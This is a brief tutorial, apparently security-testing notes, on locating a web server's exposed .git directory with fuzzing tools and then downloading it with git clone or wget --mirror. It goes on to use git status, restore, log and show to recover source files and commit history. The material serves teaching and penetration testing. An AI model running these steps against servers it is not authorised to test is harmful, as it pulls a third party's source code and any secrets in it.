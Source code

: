 
To find the exposed directory, we could use `enumeration` by manually searching for .git directory or by using fuzzing tools like gobuster, feroxbuster; Using "DotGit" extension is another way of finding this exposed directory.

To clone a directory we could use:

```bash
git clone http://<ipaddress>/.git
```

Sometimes this command doesn't work so we could use:

```bash
wget --mirror -I .git http://<ipaddress>/.git
```

Now we navigate to the directory, and we can use some commands to check if we can restore some files or see previous commits.

To check the git status we will use the command:

```bash
git status
```

To recover files we can use one of the two commands below:

```bash
git checkout --
or 
git restore .
```

we could also check the logs using this command, which shows a list of all the commits made to a repository:

```bash
git log
```

Now we can use this command to check an individual commit:

```bash
git show "commit-id" # we can find this id from git log command
``` 

Reference:
https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37
